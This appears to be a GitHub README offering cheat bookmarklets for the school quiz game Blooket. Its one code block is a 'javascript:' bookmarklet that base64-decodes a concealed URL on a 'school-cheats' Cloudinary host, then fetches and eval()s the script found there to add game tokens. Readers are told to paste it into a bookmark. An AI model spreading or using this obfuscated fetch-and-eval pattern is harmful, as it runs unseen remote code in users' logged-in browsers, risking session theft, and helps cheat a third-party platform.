 # Blooket-hack-after-glixzzy
glixzzy stop making profit off school cheats                                 (made by a student who named jack and hes a cool omg!1)



# Here are the big juicy hecks collection
these are all useful bookmarklets,paste them into bookmark, make sure javascript: are in the initial.
# add tokens!11!
```js
javascript:fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))
```
# sell dupe blooks!11111!111!!!!!!!!!
